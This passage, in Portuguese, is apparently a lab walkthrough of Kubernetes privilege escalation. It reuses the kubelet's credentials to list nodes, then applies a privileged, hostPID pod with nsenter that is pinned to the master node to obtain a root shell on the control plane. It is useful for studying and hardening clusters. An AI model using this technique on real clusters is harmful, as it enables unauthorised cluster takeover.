 Nosso acesso é a um worker mas queremos chegar nos master, para isso será necessário informações sobre os demais nodes.

Como vimos, nossa service account não possui permissão para listar os nodes, então vamos procurar uma que consiga listar os nodes.

Lembrando dos componentes que fazem parte dos node o kubelet possui permissão para verificar os nós ativos, vamos tentar utilizar sua configuração de autenticação para listarmos os nodes:
Vamos pegar suas config com:

```
systemctl status kubelet
```
Com a config do kubelet tentaremos listar os nodes usando o parametro --kubeconfig:

```
kubectl get no --kubeconfig=/etc/kubernetes/kubelet.conf
```
**Conseguimos !** 

Agora vamos forçar o scheduler agendar nosso container no control plane.

Mas primeiro precisamos voltar para nosso container com permissão de criação de pods.

```
exit
```

- **Nome do node Master** | Substituir pelo nome do seu nó em yml abaixo.

```
cd /tmp; cat > master-root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: mega-pod-brabo-devops-extreme
  name: mega-pod-brabo-devops-extreme
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "mega-pod-brabo-devops-extreme"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
  nodeName: **Nome do node Master**
  tolerations:
  - effect: NoExecute
    operator: Exists
EOF
./kubectl apply -f master-root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it mega-pod-brabo-devops-extreme -- bash
```
Conseguimos acesso ao control plane =)
